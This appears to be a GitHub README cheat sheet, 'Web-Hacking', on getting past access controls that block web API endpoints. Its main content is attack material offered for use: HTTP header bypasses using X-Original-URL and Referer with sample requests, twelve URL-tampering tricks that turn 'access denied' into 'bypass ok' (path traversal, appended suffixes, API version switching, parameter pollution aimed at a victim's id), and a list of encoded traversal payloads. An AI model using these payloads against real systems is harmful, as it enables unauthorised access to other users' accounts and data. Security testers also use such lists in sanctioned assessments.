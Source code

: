 # Web-Hacking #
## Topics 

#### Tricks
<b>If you want do bypass endpoint always try to use own methodology.</b>

Example:

Http Header based bypass:

1. X-Original-URL: /redact

Example:<br/>
 
  
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

2. Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

3. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid.json → bypass ok

4. https://site.com/api/v1/redactid → acess denied
https://site.com/api/v1/users/redactid: → bypass ok

5. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid..;/ → bypass ok

6. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid\..\.\getUser → bypass ok

7. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/ → bypass ok

8. https://site.com/api/v1/users/redactid → acess denied
https://site.com/api/v1/users/redactid?? → bypass ok

9. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v2/users/redactid → bypass ok
            or
https://site.com/api/v3/users/redactid → bypass ok

10. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid&accountdetails → bypass ok

11. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied
https://site.com/api/v1/users/your?id=UAEILsdUf50&victim?id=BAEILsaqQhk → bypass ok

12. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/email → bypass ok

Payload for basic test:

?
??
&
#
%
%20
%09
/
/..;/
../
..$2f
..;/
../
\..\.\
.././
..%00/
.%0d/
..%5c
..\
..%ff/
%2e%2e%2f
.%2e/
%3f
%26
%23
.json

HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



